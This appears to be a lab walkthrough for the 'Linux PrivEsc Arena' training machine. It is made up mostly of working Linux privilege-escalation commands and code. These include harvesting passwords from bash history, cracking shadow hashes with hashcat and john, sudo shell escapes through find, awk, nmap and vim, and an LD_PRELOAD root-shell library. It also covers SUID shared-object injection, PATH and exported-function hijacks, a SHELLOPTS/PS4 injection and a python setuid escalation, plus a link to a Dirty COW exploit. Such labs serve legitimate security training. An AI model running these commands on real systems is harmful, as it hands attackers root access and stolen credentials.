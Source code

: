 # Linux PrivEsc Arena

<figure><img src="../../../../.gitbook/assets/image (364).png" alt=""><figcaption></figcaption></figure>

Connection SSH&#x20;

```bash
 ssh -oHostKeyAlgorithms=+ssh-dss TCM@10.10.19.42
```

## Privilege Escalation - Kernel Exploits

### Detection

**/home/user/tools/linux-exploit-suggester/linux-exploit-suggester.sh**

<figure><img src="../../../../.gitbook/assets/image (365).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
[**https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c**](https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c)
{% endhint %}

### Privilege Escalation - Stored Passwords (Config Files & History)

<figure><img src="../../../../.gitbook/assets/image (366).png" alt=""><figcaption><p>Config File</p></figcaption></figure>

#### History!

```bash
 cat ~/.bash_history | grep -i passw
```

What was TCM trying to log into?

Who was TCM trying to log in as?&#x20;

Who was TCM trying to log in as?

<figure><img src="../../../../.gitbook/assets/image (367).png" alt=""><figcaption></figcaption></figure>

```
unshadow <PASSWORD-FILE> <SHADOW-FILE> > unshadowed.txt
hashcat -m 1800 unshadowed.txt rockyou.txt -O
```

### Privilege Escalation - SSH Keys

```bash
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
sudo find /bin -name nano -exec /bin/sh \;
sudo awk 'BEGIN {system("/bin/sh")}'
echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
sudo vim -c '!sh'
sudo apache2 -f /etc/shadow

```

```bash
john --wordlist=/usr/share/wordlists/nmap.lst hash.txt
```

### Privilege Escalation - Sudo (LD\_PRELOAD)

1. In command prompt type: sudo -l
2. From the output, notice that the LD\_PRELOAD environment variable is intact.

```c

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
    }
    
    /*
        gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
        sudo LD_PRELOAD=/tmp/x.so apache2
    */
```

<figure><img src="../../../../.gitbook/assets/image (368).png" alt=""><figcaption></figcaption></figure>

```bash
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
sudo LD_PRELOAD=/tmp/x.so apache2
```

### Privilege Escalation - SUID (Shared Object Injection)

Detection

```bash
find / -type f -perm -04000 -ls 2>/dev/null
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
```

<figure><img src="../../../../.gitbook/assets/image (369).png" alt=""><figcaption></figcaption></figure>

Exploitation

```bash
 mkdir /home/user/.config
 cd /home/user/.config
 nano libcalc.c
#[code]
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}

gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
/usr/local/bin/suid-so
```

### Privilege Escalation - SUID (Environment Variables #1,2)

\#1 Detection

```bash
 find / -type f -perm -04000 -ls 2>/dev/null
 strings /usr/local/bin/suid-env
```

Exploitation

```bash
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
 gcc /tmp/service.c -o /tmp/service
 export PATH=/tmp:$PATH
 /usr/local/bin/suid-env
```

\#2 Detection

```bash
 find / -type f -perm -04000 -ls 2>/dev/null
 /usr/local/bin/suid-env2
#1
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
export -f /usr/sbin/service
/usr/local/bin/suid-env2

#2
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
```

### Privilege Escalation - Capabilities

```bash
 getcap -r / 2>/dev/null
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

